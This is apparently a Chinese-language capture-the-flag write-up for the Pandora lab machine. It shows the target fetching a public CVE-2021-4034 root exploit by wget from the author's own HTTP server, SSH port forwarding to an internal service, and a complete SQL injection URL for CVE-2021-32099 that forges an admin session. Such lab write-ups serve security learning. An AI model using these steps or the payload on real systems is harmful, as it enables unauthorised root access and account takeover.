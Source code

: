 ![image-20220309231540290](image-20220309231540290.png)

发现成功登录，但user flag 在另一个用户目录下没有权限读取。

![image-20220309231702161](image-20220309231702161.png)



这里用`lsb_release -a`  和`uname -r`来查询发行版本与内核版本。

![image-20220309232153234](image-20220309232153234.png)

发现是Ubuntu 20.04.3 LTS，于是谷歌下发现有CVE-2021-4034提取。在github上找了个poc：

https://github.com/nikaiw/CVE-2021-4034/blob/master/cve2021-4034.py

用python 来搭建简单http服务：

```shell
python3 -m http.server 9090
```

执行上面命令。在自己的电脑9090端口开启web服务。

在靶场机器上执行`wget 10.10.14.94:9090/cve2021-4034.py`来获取poc：

![image-20220309233250045](image-20220309233250045.png)

执行poc，来获得root:

![image-20220309233402834](image-20220309233402834.png)

这里一下全到root才发现自己可能非预期了，但已经有权限读取root.txt和user.txt了

![image-20220309233503275](image-20220309233503275.png)

## 正常解法

在看了其他大佬wp发现自己完全避开，关键点.....tcl.

由于daniel用法在curl 80端口时出现不同页面，所有怀疑有内网服务。

用命令:

```shell
ssh -L 8001:127.0.0.1:80  daniel@10.10.11.136 
```

来转发端口，可以看到有个全新web页面

![image-20220310150454237](image-20220310150454237.png)

根据下方提示版本，谷歌后发现是Pandora模板（正好点题）

d但是我们不知道后台密码，经过谷歌后发现CVE-2021-32099可以通过sql注入获得admin cookie

poc 如下：

```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271

```
